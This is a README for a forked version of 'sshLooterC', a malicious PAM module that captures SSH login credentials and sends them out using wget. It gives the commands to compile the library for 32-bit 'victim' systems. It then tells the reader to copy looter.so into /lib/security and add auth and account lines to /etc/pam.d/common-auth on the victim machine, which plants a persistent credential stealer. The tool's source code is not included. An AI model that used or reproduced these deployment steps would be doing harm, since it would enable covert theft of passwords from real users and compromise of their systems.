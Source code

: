 # sshLooterC forked

<a href="https://github.com/mthbernardes/sshLooterC">https://github.com/mthbernardes/sshLooterC</a>

# Changes from the original project
* Removed libcurl4-openssl-dev dependency, now using <b>system("wget ...")</b>
* Compiled for 32bit arch on a 64bit system, you need to install <b>gcc-multilib</b> on the attacker machine<br/>
I have coded a C file, <b>callLooter.c</b> to test the library before installation on the target


# Dependencies
* [Optional] to compile the program for 32bit arch you need to install <b>gcc-multilib</b>on a 64bit system
* PAM dev library: <b>libpam0g-dev</b>

# Compilation
`gcc callLooter.c -o callLooter -m32 -ldl
 gcc -m32 -Werror -Wall -fPIC -shared -o looter.so looter2.c`
The m32 switch is optional and allows to compile the files for a 32bit victim on a 64bit attacker machine

# Usage
Copy the <b>looter.so</b> to victim machine on <b>/lib/security</b>, then append to <b>/etc/pam.d/common-auth</b>the following lines:
`auth optional looter.so
account optional looter.so`

# Credits
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
<br/>
Thank you

 
